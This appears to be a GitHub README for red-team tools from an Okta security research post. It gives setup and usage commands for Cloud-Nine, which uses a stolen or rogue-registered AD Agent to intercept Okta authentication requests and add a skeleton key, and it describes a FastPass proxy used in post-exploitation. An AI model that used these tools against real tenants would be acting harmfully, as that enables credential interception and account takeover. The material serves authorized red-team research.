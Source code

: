 ## Info

This repo contains projects to support the "Okta for Red Teamers" blog post [here](https://www.trustedsec.com/?p=30372).

## Cloud-Nine

An Okta Agent tool which emulates an AD Agent, allows interception of authentication requests, and adding a skeleton key.

### Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

### Usage

Two modes are supported:

1. Use an stolen AD Agent token to connect to Okta and intercept authentication requests:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 token --api-token 0023452Lllk2KqjLBvaxANWEgTd7bqjsxjo8aZj0wd --app-id 0oa7c027u2TcJxoki697 --agent-id a537cnm9ldwPILkqP697
```

2. Register a new AD Agent with Okta and intercept authentication requests:

> Note: You'll need an OAuth Response Code which you can get from:

```
https://example.okta.com/oauth2/authorize?redirect_uri=%2Foauth-response&response_type=code&client_id=cappT0Hfy97F1BoO1UTR&prompt=select_account
```

Then we can pass this as an arg to:

```bash
python ./main.py --tenant-domain example.okta.com --skeleton-key WibbleWobble99 oauth --machine-name DC01 --windows-domain lab.local --code OAUTH_CODE_HERE
```

## OktaRealFast

This is a proxy tool for validating Okta FastPass JWT's before forwarding them to a target host.

The idea is simple.. it gives the ability to see if a popup is going to be presented to the user during post-exploitation. 

More information in the blog post https://blog.xpnsec.com/identity-providers-redteamers.

## malIDP

This has been moved to its own repository at [https://github.com/xpn/malIDP](https://github.com/xpn/malIDP).

